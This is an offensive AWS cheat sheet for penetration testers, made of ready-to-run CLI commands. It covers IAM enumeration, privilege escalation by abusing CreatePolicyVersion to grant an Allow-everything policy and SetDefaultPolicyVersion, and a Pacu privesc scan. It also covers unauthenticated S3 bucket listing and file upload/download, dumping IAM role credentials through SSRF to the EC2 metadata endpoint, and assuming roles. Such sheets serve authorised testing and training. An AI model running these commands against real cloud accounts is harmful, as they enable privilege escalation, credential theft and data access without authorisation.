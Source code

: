 # AWS

% aws

## Configure AWS cli

```
aws configure
```

## Configure AWS cli for profile

```
aws configure --profile <profil>
```

## Configure AWS cli with temp credentials

```
export AWS_ACCESS_KEY_ID="<access_key_id>";
export AWS_SECRET_ACCESS_KEY="<secret_access_key>";
export AWS_SESSION_TOKEN="<session_token>";
```

## Listing IAM access Keys

```
aws iam list-access-keys
```

## Enumerating IAM users

### Checking credentials for the user

```
aws sts get-caller-identity
```

### Listing IAM Users

```
aws iam list-users
```

### Listing the IAM groups that the specified IAM user belongs to 

```
aws iam list-groups-for-user --user-name <user-name>
```

### Listing all managed policies that are attached to the specified IAM user 

```
aws iam list-attached-user-policies --user-name <user-name>
```

### Listing the names of the inline policies embedded in the specified IAM user 

```
aws iam list-user-policies --user-name <user-name>
```

### Listing IAM Groups

```
aws iam list-groups
```

### Listing all managed policies that are attached to the specified IAM Group 

```
aws iam list-attached-group-policies --group-name <group-name>
```

### Listing the names of the inline policies embedded in the specified IAM Group

```
aws iam list-group-policies --group-name <group-name>
```

### Listing IAM Roles

```
aws iam list-roles
```

### Listing all managed policies that are attached to the specified IAM role 

```
aws iam list-attached-role-policies --role-name  <role-name>
```

### Listing the names of the inline policies embedded in the specified IAM role 

```
aws iam list-role-policies --role-name <role-name>
```

### Listing of IAM Policies

```
aws iam list-policies
```

### Retrieving information about the specified managed policy 

```
aws iam get-policy --policy-arn <policy-arn>
```

### Listing information about the versions of the specified manages policy 

```
aws iam list-policy-versions --policy-arn <policy-arn>
```

### Retrieving information about the specific version of the specified managed policy 

```
aws iam get-policy-version --policy-arn <policy-arn> --version-id <version-id>
```

### Retrieving the specified inline policy document that is embedded on the specified IAM user

```
aws iam get-user-policy --user-name <user-name> --policy-name <policy-name>
```

### Retrieving the specified inline policy document that is embedded on the specified group

```
aws iam get-group-policy --group-name <group-name> --policy-name <policy-name>
```

### Retrieving the specified inline policy document that is embedded on the specified role 

```
aws iam get-role-policy --role-name  <role-name> --policy-name <policy-name>
```

## Privesc with IAM overly permissive right

### PACU - Scan for IAM Privesc

```
run iam__privesc_scan
```

### Abuse iam:CreatePolicyVersion permission

```
aws iam create-policy-version --policy-arn <policy-arn> --policy-document '{"Version": "2012-10-17", "Statement": [{"Effect": "Allow", "Action": "*", "Resource": "*"}]}'
```

### Abuse iam:SetDefaultPolicyVersion

```
aws iam set-default-policy-version --policy-arn <policy-arn> –version-id <vX>
```

## Bucket S3

### List s3 recursively 

```
aws s3 ls s3://<bucket_name> --recursive
```

### List s3 - no authent

```
aws s3 ls s3://<bucket_name> --no-sign-request
```

### Get file 

```
aws s3 cp s3://<bucket_name>/<file> <local_file>
```

### Put file

```
aws s3 cp <local_file> s3://<bucket_name>/<file>
```

## SSRF in EC2

## SSRF in EC2 - List roles
#plateform/linux #target/remote #protocol/http #port/80 #cat/RECON
```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

## SSRF in EC2 - Dump roles
#plateform/linux #target/remote #protocol/http #port/80 #cat/RECON
```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
```

## Assume role

```
aws sts assume-role --role-arn <arn> --role-session-name <sess_name>
```

## Enumerate AWS organization

### List organizations

```
aws organizations describe-organization
```